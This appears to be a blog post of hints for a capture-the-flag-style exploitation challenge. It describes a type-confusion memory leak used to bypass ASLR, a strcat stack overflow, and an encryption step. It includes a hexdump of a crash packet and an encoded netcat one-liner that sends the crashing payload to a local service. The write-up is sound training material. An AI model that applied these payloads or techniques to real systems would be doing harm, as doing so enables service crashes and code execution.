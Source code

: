 ```yaml
---
title: 'Part 3: Hints'
author: ron
categories:
- hints
layout: post
date: '2023-05-11T16:03:37-07:00'
permalink: "/part3-hints"
featured: true

---
```


These are hints for the third challenge. Use at your own discretion!

<!--more-->

## Vulnerability types

You actually need to find two vulnerabilities:

1. Memory leak (to bypass ASLR)
2. Stack overflow (to execute code)

## Memory leak

There is a memory leak due to type confusion.

If you send a string where the service expects an integer, what happens? Is
there somewhere that displays the integer value back (like, say, in an error
message)?

That would be a great place to store strings (like an argument to `popen`)!

## Stack overflow

Do you see any dangerous functions being used in `apply`? Like, say, `strcat`
or similar?

### DoS Message

Here's a packet that will crash `apply`:

```
0000009B  00 00 00 02 6a f5 00 d9  00 00 04 25 00 00 00 06   ....j... ...%....
000000AB  00 00 00 01 00 00 12 34  00 00 00 02 00 00 43 21   .......4 ......C!
000000BB  00 00 00 02 00 00 43 21  00 00 00 02 00 00 43 21   ......C! ......C!
000000CB  00 00 00 02 00 00 43 21  00 00 00 02 00 00 43 21   ......C! ......C!
000000DB  00 00 00 00 00 00 00 66  41 41 41 41 41 41 41 41   .......f AAAAAAAA
000000EB  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
000000FB  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000010B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000011B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000012B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000013B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000014B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000015B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000016B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000017B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000018B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
0000019B  41 41 41 41 41 41 41 41  41 41 41 41 41 41 41 41   AAAAAAAA AAAAAAAA
000001AB  00 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   .BBBBBBB BBBBBBBB
000001BB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001CB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001DB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001EB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
000001FB  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000020B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000021B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000022B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000023B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000024B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000025B  42 42 42 42 42 42 42 42  42 42 42 42 42 42 42 42   BBBBBBBB BBBBBBBB
0000026B  42 42 42 42 42 42 42 42  42 00 43 43 43 43 43 43   BBBBBBBB B.CCCCCC
0000027B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000028B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000029B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002AB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002BB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002CB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002DB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002EB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
000002FB  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000030B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000031B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000032B  43 43 43 43 43 43 43 43  43 43 43 43 43 43 43 43   CCCCCCCC CCCCCCCC
0000033B  43 43 00 44 44 44 44 44  44 44 44 44 44 44 44 44   CC.DDDDD DDDDDDDD
0000034B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000035B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000036B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000037B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000038B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
0000039B  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003AB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003BB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003CB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003DB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003EB  44 44 44 44 44 44 44 44  44 44 44 44 44 44 44 44   DDDDDDDD DDDDDDDD
000003FB  44 44 44 44 44 44 44 44  44 44 44 00 45 45 45 45   DDDDDDDD DDD.EEEE
0000040B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000041B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000042B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000043B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000044B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000045B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000046B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000047B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000048B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
0000049B  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004AB  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004BB  45 45 45 45 45 45 45 45  45 45 45 45 45 45 45 45   EEEEEEEE EEEEEEEE
000004CB  45 45 45 45 00                                     EEEE.
```

### Full DoS PoC

Here's how you can crash it with Netcat.. this is long, so I'm using bzip2
and base64 to encode it:

```
$ echo -ne 'QlpoOTFBWSZTWUzPK1AAAAt9p/0AECEiAn/iPgAnFEAoAAksAAAgAAICACAAdBkkDUekP1RpptGpiB6ho9BkoBM0TCYAJgBo0oYHSi4PiqvwbAR0H6vlkEBaRFBAShAKkJQ+MKoAROmZPK/C8f4DqYDEwKCM7I5va7YGupr7NG1ffgs8lABYU9FInCx6I/QfNLfsqZOVVVZS1F3JFOFCQTM8rUA=' | base64 -d | bunzip2 | nc -v localhost 1337
```

This is obviously somewhat spoilery, so use at your own descretion!

## Encryption

The response to `OPCODE_APPLY` basically encrypts your application send sends
it back. You need to figure out the encryption type and key! You should be
able to find calls to `EVP_EncryptInit_ex`, then work backwards from there.

## Doing something useful

The stack is overflowed with *encrypted* data. That means you need to *decrypt*
your payload first!
